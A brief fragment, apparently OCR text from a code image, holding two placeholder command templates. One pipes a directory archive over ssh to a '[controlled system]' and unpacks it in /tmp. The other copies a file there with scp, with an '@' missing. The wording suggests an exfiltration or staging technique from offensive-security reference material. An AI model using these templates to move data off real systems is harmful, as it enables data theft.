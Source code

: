 	tar cf - [directory]/ | ssh [user]@[controlled system] "cd /tmp/; tar xpf -"
	or
	scp [file] [user][controlled system]:[save path]